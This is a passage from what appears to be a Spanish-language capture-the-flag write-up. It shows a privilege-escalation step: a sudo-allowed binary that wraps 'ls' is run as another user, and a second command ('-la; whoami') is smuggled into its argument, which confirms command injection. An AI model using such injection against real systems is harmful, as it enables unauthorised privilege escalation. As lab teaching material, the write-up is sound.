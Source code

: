 Vemos que podemos ejecutar como `metadata` el binario `code`, por lo que haremos lo siguiente.

```shell
sudo -u metadata /home/codebad/code
```

Info:

```
Usage: /home/codebad/code <options>
```

Vemos que necesita un `input` por lo que le pondremos algo.

```shell
sudo -u metadata /home/codebad/code 'hola'
```

Info:

```
/bin/ls: cannot access 'hola': No such file or directory
```

Vemos que por detras se esta ejecutando un `ls`, probaremos a poner `-la`.

```shell
sudo -u metadata /home/codebad/code '-la'
```

Info:

```
total 44
drwxr-xr-x 3 codebad  codebad   4096 Aug 29 13:22 .
drwxr-xr-x 1 root     root      4096 Aug 29 11:41 ..
-rw------- 1 codebad  codebad      5 Aug 29 13:22 .bash_history
-rw-r--r-- 1 codebad  codebad    220 Aug 29 11:39 .bash_logout
-rw-r--r-- 1 codebad  codebad   3771 Aug 29 11:39 .bashrc
-rw-r--r-- 1 codebad  codebad    807 Aug 29 11:39 .profile
-rwxr-xr-x 1 metadata metadata 16176 Aug 29 12:16 code
drwxr-xr-x 2 root     root      4096 Aug 29 11:49 secret
```

Vemos que funciona, por lo que intentaremos concatenar comandos a ver si funciona.

```shell
sudo -u metadata /home/codebad/code '-la; whoami'
```

Info:

```
total 44
drwxr-xr-x 3 codebad  codebad   4096 Aug 29 13:22 .
drwxr-xr-x 1 root     root      4096 Aug 29 11:41 ..
-rw------- 1 codebad  codebad      5 Aug 29 13:22 .bash_history
-rw-r--r-- 1 codebad  codebad    220 Aug 29 11:39 .bash_logout
-rw-r--r-- 1 codebad  codebad   3771 Aug 29 11:39 .bashrc
-rw-r--r-- 1 codebad  codebad    807 Aug 29 11:39 .profile
-rwxr-xr-x 1 metadata metadata 16176 Aug 29 12:16 code
drwxr-xr-x 2 root     root      4096 Aug 29 11:49 secret
metadata
```
